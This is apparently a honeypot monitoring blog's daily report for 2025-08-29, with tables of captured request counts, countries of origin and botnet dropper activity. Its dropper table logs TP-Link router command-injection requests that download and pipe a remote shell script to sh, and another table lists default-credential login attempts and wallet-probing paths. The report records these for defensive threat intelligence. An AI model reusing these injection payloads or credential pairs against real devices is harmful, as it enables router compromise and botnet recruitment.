 ```yaml
---
title: "Report: 2025-08-29 "
date: 2025-08-29
desciption: "Report: 2025-08-29" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-29 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 13 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 37 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 577 requests were recorded during the day, originating from 13 different countries, with a peak of 229 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                     |
|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------|
| 121.155.192.188 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//0.0.0.0/router.tplink.sh%20-O-%7Csh) HTTP/1.1        |
| 177.69.131.214  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 99.232.224.106  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 79.87.146.24    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 176.206.226.104 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 221.159.119.6   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 220.87.141.80   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 157.107.226.41  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 121.167.125.180 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 98.151.209.12   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 222.112.119.3   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 58.40.8.206     | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//144.172.103.95/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |
| 220.81.150.55   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget%20http%3A//95.103.172.144/router.tplink.sh%20-O-%7Csh) HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
|   5 |                    11 | CONNECT 196.251.67.42:80 HTTP/1.0                             |
|   8 |                     6 | CONNECT 45.221.64.243:80 HTTP/1.0                             |
|  10 |                     5 | CONNECT 196.251.86.195:80 HTTP/1.0                            |
|  94 |                     1 | \x04\x01\x00P\xC4\xFBC*root:root123\x00                       |
|  95 |                     1 | \x04\x01\x00P\xC4\xFBC*ftpuser:ftpuser\x00                    |
|  96 |                     1 | \x04\x01\x00P\xC4\xFBC*leo:DVdmEU8usfIYEiYD9txyX\x00          |
|  97 |                     1 | \x04\x01\x00P\xC4\xFBC*\x00                                   |
|  98 |                     1 | \x04\x01\x00P\xC4\xFBV\xC3fwupgrade:DVdmEU8usfIYEiYD9txyX\x00 |
|  99 |                     1 | \x04\x01\x00P\xC4\xFBV\xC3test:test\x00                       |
| 118 |                     1 | GET /logged.jsp HTTP/1.1                                      |
| 119 |                     1 | \x04\x01\x00P\xC4\xFBC*admin:admin\x00                        |
| 121 |                     1 | \x04\x01\x00P\xC4\xFBV\xC3root:toor\x00                       |
| 122 |                     1 | \x04\x01\x00P\xC4\xFBC*root:P@ssw0rd\x00                      |
| 123 |                     1 | \x04\x01\x00P\xC4\xFBC*root:P4ssw0rd\x00                      |
| 124 |                     1 | \x04\x01\x00P\xC4\xFBC*user1:user1\x00                        |
| 125 |                     1 | \x04\x01\x00P\xC4\xFBC*logout:logout\x00                      |
| 126 |                     1 | \x04\x01\x00P\xC4\xFBC*support:support\x00                    |
| 127 |                     1 | \x04\x01\x00P\xC4\xFBC*pi:raspberry\x00                       |
| 128 |                     1 | \x04\x01\x00P-\xDD@\xF3ubnt:ubnt\x00                          |
| 186 |                     1 | GET /wallets/ HTTP/1.1                                        |
| 187 |                     1 | GET /bkp/ HTTP/1.1                                            |
| 188 |                     1 | GET /sql/ HTTP/1.1                                            |
| 189 |                     1 | GET /pay/ HTTP/1.1                                            |
| 190 |                     1 | GET /9547616831 HTTP/1.1                                      |
| 191 |                     1 | GET /3/ HTTP/1.1                                              |
| 192 |                     1 | GET /2/ HTTP/1.1                                              |
| 193 |                     1 | GET /1/ HTTP/1.1                                              |
| 200 |                     1 | GET /send/ HTTP/1.1                                           |
| 201 |                     1 | \x04\x01\x00P\xC4\xFBV\xC3\x00                                |
| 214 |                     1 | \x04\x01\x00P\xC4\xFBV\xC3service:service\x00                 |
| 215 |                     1 | \x04\x01\x00P-\xDD@\xF3\x00                                   |
| 263 |                     1 | \x04\x01\x00P-\xDD@\xF3user1:user1\x00                        |
| 284 |                     1 | GET /solana/ HTTP/1.1                                         |
| 285 |                     1 | GET /dumps/ HTTP/1.1                                          |
| 286 |                     1 | GET /log/ HTTP/1.1                                            |
| 287 |                     1 | GET /coin/ HTTP/1.1                                           |
| 289 |                     1 | GET /tron/ HTTP/1.1                                           |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   229 | GB                 |
|  1 |                    82 | US                 |
|  2 |                    43 | DE                 |
|  3 |                    38 | GH                 |
|  4 |                    34 | SC                 |
|  5 |                    34 | HK                 |
|  6 |                    19 | ZA                 |
|  7 |                    17 | FR                 |
|  8 |                    15 | NL                 |
|  9 |                    12 | KR                 |
| 10 |                    10 | CA                 |
| 11 |                     6 | TR                 |
| 12 |                     5 | BG                 |
| 13 |                     4 | AE                 |
| 14 |                     4 | NO                 |
| 15 |                     3 | CN                 |
| 16 |                     3 | JP                 |
| 17 |                     3 | BR                 |
| 18 |                     3 | RO                 |
| 19 |                     2 | MC                 |
| 20 |                     2 | PL                 |
| 21 |                     2 | IR                 |
| 22 |                     1 | ES                 |
| 23 |                     1 | SG                 |
| 24 |                     1 | IN                 |
| 25 |                     1 | IT                 |
| 26 |                     1 | AZ                 |
| 27 |                     1 | BE                 |
| 28 |                     1 | SE                 |
